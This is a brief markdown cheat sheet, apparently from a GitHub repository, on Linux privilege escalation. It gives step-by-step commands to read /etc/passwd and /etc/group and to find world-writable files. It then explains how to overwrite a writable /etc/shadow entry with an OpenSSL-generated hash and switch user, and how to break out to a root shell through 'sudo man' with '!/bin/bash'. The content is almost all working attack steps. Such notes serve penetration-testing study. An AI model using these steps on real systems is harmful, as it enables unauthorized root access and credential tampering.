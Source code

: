 # Weak permissions
check other users -- ```cat /etc/passwd```  
check groups -- ```cat /etc/group```

**Enumerate list of files that can be modified by every user on system**  
1. ```find / -not -type l -perm -o+w```  
2. check for /etc/shadow  
3. confirm you can edit the shadow file -- ```ls -al /etc/shadow```. Looks for rw access
4. use open ssl to replace password -- ```openssl passwd -1 -salt abc password```
5. copy the value
6. vim/nano /etc/shadow
7. replace asterisk with your hash (if Vim, keep cursor on first colon)
8. login with su

# Exploiting sudo privileges
```sudo -l``` -- gives a list of commands user can run  

**Exploiting man**  
1. ```sudo man ls```
2. type ```!/bin/bash```
